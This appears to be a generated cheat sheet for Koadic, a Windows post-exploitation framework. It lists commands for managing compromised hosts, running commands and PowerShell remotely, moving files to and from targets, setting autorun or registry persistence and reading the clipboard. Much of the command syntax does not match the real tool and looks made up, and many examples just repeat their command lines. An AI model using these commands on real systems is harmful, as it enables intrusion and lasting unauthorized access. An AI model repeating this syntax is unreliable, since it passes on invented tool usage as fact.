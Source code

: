 Here’s a detailed overview of **Koadic**, a powerful tool for penetration testing and exploitation that focuses on Windows environments. Koadic is known for its ability to execute commands and payloads through a variety of methods.

### **Koadic**

**Koadic** (also known as **Koadic RAT**) is a post-exploitation framework used to control and exploit Windows systems. It leverages various techniques for command execution, file manipulation, and more.

#### **Common Commands and Options**

1. **Start Koadic Server:**
   - **Description:** Start the Koadic server to manage sessions and execute commands.
   - **Command:**
     ```bash
     koadic
     ```
   - **Example:**
     ```bash
     koadic
     ```
   - **Explanation:**
     - Launches the Koadic server, providing access to the command-line interface.

2. **List Active Sessions:**
   - **Description:** View active sessions and connected targets.
   - **Command:**
     ```bash
     sessions
     ```
   - **Example:**
     ```bash
     sessions
     ```
   - **Explanation:**
     - Lists all active sessions that have been established with the Koadic server.

3. **Interact with a Session:**
   - **Description:** Interact with a specific session using its ID.
   - **Command:**
     ```bash
     interact <session_id>
     ```
   - **Example:**
     ```bash
     interact 1
     ```
   - **Explanation:**
     - Switches to the session with ID `1`, allowing you to execute commands and manage the target.

4. **Execute Commands:**
   - **Description:** Run commands on the target system.
   - **Command:**
     ```bash
     exec <command>
     ```
   - **Example:**
     ```bash
     exec whoami
     exec ipconfig
     ```
   - **Explanation:**
     - Executes `whoami` or `ipconfig` on the target system to gather information.

5. **Upload/Download Files:**
   - **Description:** Upload or download files to/from the target system.
   - **Commands:**
     - **Upload File:**
       ```bash
       upload <local_path> <remote_path>
       ```
     - **Download File:**
       ```bash
       download <remote_path> <local_path>
       ```
   - **Example:**
     - **Upload:**
       ```bash
       upload ./localfile.txt C:\Users\Public\remote.txt
       ```
     - **Download:**
       ```bash
       download C:\Users\Public\remote.txt ./localfile.txt
       ```
   - **Explanation:**
     - Uploads `localfile.txt` to `C:\Users\Public\remote.txt` on the target system.
     - Downloads `remote.txt` from the target system to `localfile.txt`.

6. **Execute PowerShell Commands:**
   - **Description:** Run PowerShell commands on the target system.
   - **Command:**
     ```bash
     powershell <command>
     ```
   - **Example:**
     ```bash
     powershell Get-Process
     powershell Invoke-WebRequest -Uri "http://example.com"
     ```
   - **Explanation:**
     - Executes `Get-Process` or `Invoke-WebRequest` PowerShell commands on the target.

7. **Manage Persistence:**
   - **Description:** Set up persistence mechanisms on the target system.
   - **Command:**
     ```bash
     persistence <method>
     ```
   - **Example:**
     ```bash
     persistence autorun
     persistence registry
     ```
   - **Explanation:**
     - Configures persistence using methods like autorun or registry entries to maintain access.

8. **System Information:**
   - **Description:** Retrieve system information from the target.
   - **Command:**
     ```bash
     systeminfo
     ```
   - **Example:**
     ```bash
     systeminfo
     ```
   - **Explanation:**
     - Gathers detailed information about the target system, such as OS version, architecture, and more.

9. **Interact with the Clipboard:**
   - **Description:** Access and modify the clipboard on the target system.
   - **Command:**
     ```bash
     clipboard <action> <data>
     ```
   - **Example:**
     ```bash
     clipboard get
     clipboard set "Hello, world!"
     ```
   - **Explanation:**
     - Retrieves or sets clipboard data on the target system.

### **Summary of Koadic Commands**

| **Command**                   | **Description**                                 | **Example**                                    |
|-------------------------------|-------------------------------------------------|------------------------------------------------|
| `koadic`                      | Start Koadic server                             | `koadic`                                       |
| `sessions`                    | List active sessions                            | `sessions`                                     |
| `interact <session_id>`       | Interact with a specific session                | `interact 1`                                   |
| `exec <command>`              | Execute a command on the target system          | `exec whoami`                                  |
| `upload <local_path> <remote_path>` | Upload a file to the target system          | `upload ./localfile.txt C:\Users\Public\remote.txt` |
| `download <remote_path> <local_path>` | Download a file from the target system       | `download C:\Users\Public\remote.txt ./localfile.txt` |
| `powershell <command>`        | Execute PowerShell commands on the target       | `powershell Get-Process`                       |
| `persistence <method>`        | Set up persistence mechanisms                   | `persistence autorun`                          |
| `systeminfo`                  | Retrieve system information                     | `systeminfo`                                   |
| `clipboard <action> <data>`   | Interact with the clipboard                     | `clipboard set "Hello, world!"`                |

Koadic provides a comprehensive suite of tools for managing and exploiting Windows systems, making it a valuable asset in penetration testing and security assessments.